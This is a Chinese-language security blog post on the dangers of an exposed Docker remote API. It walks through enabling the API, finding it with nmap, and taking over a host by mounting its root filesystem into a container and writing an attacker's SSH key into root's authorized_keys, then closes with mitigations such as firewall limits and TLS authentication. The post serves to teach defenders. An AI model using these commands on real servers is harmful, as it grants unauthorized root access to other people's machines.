 ```yaml
---
layout: post
title: Docker 远程API安全问题
date: 2023-09-17 12:33:24
description: Docker 远程API安全问题
keywords: docker, remote-api, secure
comments: true
categories: secure
tags: [docker, remote-api, secure]
---
```


{% img /images/post/2023/09/docker-vul.jpg 400 300 %}

[Docker](<https://en.wikipedia.org/wiki/Docker_(software)>) 为软件开发提供了很多便利，它允许软件在隔离的容器中运行，确保软件的一致性和可移植性。这意味着无论在哪个环境中，软件都能够以相同的方式运行，无需担心底层系统的差异，Docker 的镜像机制同时也让软件的部署和分发变得更加简单。尽管 Docker 提供了很多强大的功能，但如果这些功能没有使用好，那么它不仅无法发挥作用，还可能会带来严重的安全隐患，今天我们就来介绍下 Docker 下的远程 API 安全问题。

<!--more-->

## 攻击手法

首先我们来看下利用 Docker 远程 API 是如何进行攻击，下面的例子展示了通过 Docker 容器拿到主机的 shell 权限。

```bash
# 使用Docker API创建容器
docker -H 192.168.1.10:2375 run -it -v /:/mnt 8e01a1d0a1dd /bin/sh
# 将本地的SSH公钥添加到容器中
echo "黑客SSH公钥" >> /mnt/.ssh/authorized_keys
# 本地使用私钥登陆主机
ssh root@192.168.1.10
```

- 通过 Docker 的`-H`命令连上远程服务器上的 Docker API，这里的`192.168.1.10`是我们假设的一个主机 IP 地址，`2375`是 Docker 远程 API 常用的端口号。
- 利用 Docker 远程 API`docker run`新建一个容器，这里的`8e01a1d0a1dd`是一个远程服务器存在的镜像 ID，至于为什么可以知道这个镜像 ID，我们后面会介绍。
- 新建容器时将远程服务器的根目录`/`挂载到容器的`/mnt`目录下，这样容器就可以访问到远程服务器的根目录。
- 使用 Docker 的交互模式`-it`进入新建好的容器中。
- 进入容器后其实可以先查看下挂载目录下的 ssh 目录：`ls /mnt/.ssh`，确认存在相关文件了再执行`echo`语句。
- `echo`语句是将攻击者本地的公钥写到远程服务器的 SSH 授权文件中，这样攻击者就可以使用自己的私钥登陆远程服务器了。

整个过程看起来很简单，但要成功执行这个攻击，需要开启 Docker 的远程 API。

## 开启 Docker 远程 API

Docker 远程 API 也有很多用处，比如可以通过远程 API 来管理 Docker 集群，或者通过远程 API 来管理远程服务器上的 Docker 容器，这样就不需要登录到远程服务器上来管理容器了。一些 Docker 的图形化管理工具或 Docker 监控管理工具就是通过远程 API 来管理 Docker 的。

开启 Docker 的远程 API，可以通过修改 Docker 的配置文件（`/lib/systemd/system/docker.service`或者`/etc/systemd/system/docker.service.d/override.conf`）来进行开启：

```diff
# /lib/systemd/system/docker.service 文件
[Service]
-ExecStart=/usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
+ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375 --containerd=/run/containerd/containerd.sock
```

在 `ExecStart` 中添加`-H tcp://0.0.0.0:2375`即可，然后重新加载守护进程和重启 Docker 服务：

```bash
# 重新加载守护进程
sudo systemctl daemon-reload
# 重启Docker
sudo systemctl restart docker.service
```

我们可以验证一下 Docker 远程 API 是否开启成功：

```bash
$ sudo netstat -tulpn | grep 2375
tcp6       0      0 :::2375                 :::*                    LISTEN      757/dockerd
```

可以看到是正常监听在`2375`端口上了。

## 发现 Docker 远程 API

假设有一台服务器上开启了 Docker 远程 API，我们要如何发现服务器上有这个服务呢？这里其实用[Nmap](https://nmap.org/)工具来进行扫描。Nmap 是一个开源的网络扫描和安全审计工具。它被设计用来发现设备在网络上运行和查找开放的网络端口。

首先我们用 Nmap 扫描一下远程服务器上有哪些开放的端口：

```bash
sudo nmap -sS -T5 192.168.1.10 -p-
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:10 CST
Nmap scan report for 192.168.1.10
Host is up (0.00034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
2375/tcp open  docker
MAC Address: AX:D:EF:F2:CA:46 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 4.77 seconds
```

可以看到有 2 个开放端口：22 和 2375，其中 22 是 SSH 服务，2375 是 Docker 服务。其实到这里我们就可以基本确认了服务器上开启了 Docker 远程 API 服务，但我们还是可以进一步确认一下服务信息。

```bash
nmap -sTV -p 2375 192.168.1.10
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:10 CST
Nmap scan report for 192.168.1.10
Host is up (0.089s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 24.0.6 (API 1.43)
Service Info: OS: linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.35 seconds
```

可以看到 2375 端口确实是 Docker 服务，并且还检查出了 Docker 的版本信息。现在我们可以用 Docker 命令来连接远程服务器上的 Docker 服务了，比如我们可以查询服务器上 Docker 更加详尽的版本信息：

```bash
$ docker -H 192.168.1.10:2375 version

Server: Docker Engine - Community
 Engine:
  Version:          24.0.6
  API version:      1.43 (minimum version 1.12)
  Go version:       go1.20.7
  Git commit:       1a79695
  Built:            Mon Sep  4 12:31:57 2023
  OS/Arch:          linux/arm64
  Experimental:     false
 containerd:
  Version:          1.6.22
  GitCommit:        8165feabfdfe38c65b599c4993d227328c231fca
 runc:
  Version:          1.1.8
  GitCommit:        v1.1.8-0-g82f18fe
 docker-init:
  Version:          0.19.0
  GitCommit:        de40ad0
```

还可以查看服务器上 Docker 的镜像信息（所以在最开始的示例中我们可以知道服务器上有哪些镜像 ID）：

```bash
# 查看远程服务器上的镜像
$ docker -H 192.168.1.10:2375 images
REPOSITORY    TAG       IMAGE ID       CREATED        SIZE
hello-world   latest    8e01a1d0a1dd4 months ago   9.14kB
```

## Docker 远程 API 的风险

Docker 远程 API 是一个强大的工具，允许用户远程管理和控制 Docker 容器。但是，如果这个 API 被黑客恶意利用，后果可能是灾难性的。在轻微的情况下，黑客可以利用这个 API 在服务器上随意创建和运行容器。例如，他们可能会部署**加密货币挖矿容器**，这样你的服务器资源就会被滥用来为黑客挖矿，从而为他们赚取利润，而你可能完全不知情。此外，黑客还可以创建用于分布式拒绝服务（DDoS）攻击的容器，也被称为**肉鸡**。这意味着你的机器可能会被用作发起大规模网络攻击的工具，这不仅会损害你的机器的性能，还可能导致你面临法律责任。

更为严重的是，如之前的示例所示，黑客可以通过 Docker 远程 API 获得对主机的完全 shell 访问权限。这不仅仅是对单台服务器的威胁。如果这台服务器是连接到企业内部网络的**关键节点**，那么黑客就有可能利用这个入口点进入整个企业网络。一旦他们获得了这样的访问权限，他们可以窃取敏感数据、破坏关键系统或进行其他恶意活动。这种入侵可能导致企业面临巨大的经济损失、品牌声誉受损，甚至可能违反数据保护法规，导致法律诉讼。

我们在访问 Docker 远程 API 时 Docker 也会提示相关的风险，具体信息可以看[Docker 官方文档](https://docs.docker.com/engine/security/#docker-daemon-attack-surface)。

```bash
WARNING: API is accessible on http://0.0.0.0:2375 without encryption.
         Access to the remote API is equivalent to root access on the host. Refer
         to the 'Docker daemon attack surface' section in the documentation for
         more information: https://docs.docker.com/go/attack-surface/
```

## 现实世界

可能有人会问，如果 Docker 远程 API 有这么大的安全风险，那应该没有人会开启这个服务吧？其实不然，我们可以用网络空间搜索引擎[ZoomEye](https://www.zoomeye.org/)来搜索一下目前全球开启了 Docker 远程 API 的服务器有多少：

{% img /images/post/2023/09/zoomeye.png 1000 600 %}

可以看到全球有 700 多台服务器上开启了 Docker 远程 API，有些人可能不了解 Docker 远程 API 的安全问题，有些人可能是因为一些环境而默认开启的，这样服务器就会面临被攻击的风险。

## 如何防范

最好的防范措施就是不要开启 Docker 远程 API，如果确实需要开启，那么就要对 Docker 远程 API 进行安全配置，下面列举了一些开启 Docker 远程 API 的安全措施：

- 限制特定 IP 访问：如果你想允许特定的 IP 地址访问 Docker 远程 API，可以使用防火墙规则（如 iptables）来限制只允许受信任的 IP 地址访问端口。
- 基于证书的身份验证：Docker 支持使用 TLS 证书进行身份验证，启动 Docker 远程 API 时指定证书路径，客户端也需要使用相应的证书来连接到 Docker 远程 API。
- 用户名密码认证：Docker 远程 API 本身不支持基于用户名和密码的身份验证。但你可以使用反向代理（如 Nginx 或 Apache）来为 Docker API 提供这种身份验证。

## 总结

在这篇文章中，我们介绍了 Docker 远程 API 的安全问题，以及如何发现和利用 Docker 远程 API 进行攻击。Docker 远程 API 是一个强大的工具，但如果没有安全配置，那么它就会成为一个安全隐患。因此，我们应该尽可能地避免开启 Docker 远程 API，如果确实需要开启，那么就要对 Docker 远程 API 进行安全配置。
